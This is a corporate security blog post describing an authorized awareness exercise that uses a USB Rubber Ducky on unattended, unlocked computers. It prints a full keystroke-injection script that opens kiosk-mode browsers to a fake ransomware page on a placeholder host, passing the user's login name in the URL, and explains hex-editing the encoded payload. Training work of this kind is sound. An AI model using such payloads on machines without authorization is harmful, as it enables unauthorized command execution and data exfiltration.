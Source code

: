 ```yaml
---
layout: post
title: "Unattended, Unlocked, Unprotected Terminals - User Security Training with USB Rubber Ducky"
date: 2018-08-24 23:59
comments: false
author: Rodney Beede
authorIsRacker: true
published: true
categories:
  - Security
---
```


As part of our user security awareness training we perform tests of our personnel in the work environment.  One training exercise involved testing for unattended computers by inserting a USB device that would display a ransomware screen.

<!-- more -->

## What is USB Rubber Ducky?

A product made by a company called Hak5.  You can find information about it at:

* http://hakshop.com/products/usb-rubber-ducky-deluxe 
* https://github.com/hak5darren/USB-Rubber-Ducky

To you it looks like a USB thumb drive, but it actually emulates a USB HID keyboard.  Once plugged in a payload programmed into the device sends keyboard commands to the computer.

This allows a security tester to quickly run commands on an unprotected computer without having to sit down at the computer and type.

## Our ransomware exercise

We walked around our location looking for computers that were unattended and had not been locked (left at the desktop screen).  If we discovered an unattended computer we inserted the USB Rubber Ducky into a USB port which delivered our payload.

### What happens?

The payload sends keystroke commands that:

1. Open up a web browser
1. Place the web browser full screen
1. Open a second web browser on the second monitor
   * Also in full-screen mode
1. Navigate to a fake ransomware page

The fake ransomware page includes text that indicates it is a security test and provides links to security training for the user.

## Payload code and tools

The tool duckencoder_2.6.4.jar from the [USB Rubber Ducky GitHub site](https://github.com/hak5darren/USB-Rubber-Ducky) encodes the payload command script for the USB Rubber Ducky hardware.

One limitation is that the encoder does not have built-in support for the key combination of **win + CTRL + desktop** (open a new virtual desktop).  I overcame this limitation by manually editing the compiled inject.bin with a hex editor to change the keycode bytes from _07 05_ to _07 09_ (hexadecimal).

While I have submitted code enhancements to the product's GitHub project the maintainers have not updated it in quite some time (Dec. 7, 2016).  Ideally the encoder would have support for more key combinations, but most desired actions can be done without using a hex editor.  I was successful in getting **STRING_DELAY** added to the official code base, and this script command is very helpful for writing shorter payloads.

### Code

```
REM Author:  Rodney Beede of GES-TVA
REM Created: 2018-05-31


DEFAULT_DELAY 100

REM startup delay
DELAY 100

REM Create a new desktop is  win + CTRL + desktop
REM ducky script doesn't support this so make it yourself
REM by ORing the MODIFIER_KEY values together! and HxD
REM https://github.com/hak5darren/USB-Rubber-Ducky/blob/master/Encoder/resources/keyboard.properties

REM CTRL-ALT d MAKES 07 05
REM CTRL-ALT === 0x05
REM d === 0x07   (these are keyboard codes, not ascii)
REM win+ctrl+d MAKES 07 09
CTRL-ALT d



REM run dialog
GUI r

REM the double quotes are important
STRING_DELAY 10 "c:\Program Files\internet explorer\iexplore.exe" -k http://fake-ransomeware-page.example.com/log/%username%
ENTER


REM open a second one and put on the second monitor

GUI r
STRING_DELAY 10 "c:\Program Files\internet explorer\iexplore.exe" -k http://fake-ransomeware-page.example.com/log/%username%
ENTER



REM win+SHIFT+right arrow to move window to other desktop
REM HxD edit so CTRL-ALT (05) becomes WIN+SHIFT value:  0A
REM 4F 05 ===>  4F 0A
CTRL-ALT RIGHT
```


## Summary

We chose the ransomware screen shock factor as a way to educate users of the security risk to company data.  It creates more ownership (versus just an email note from security) by demonstrating real-world impact of what could happen from a malicious actor.

![Ransomware Screen]({% asset_path 2018-08-24-unattended-unlocked-unprotected-terminals-user-security-training/ransomware.png %})
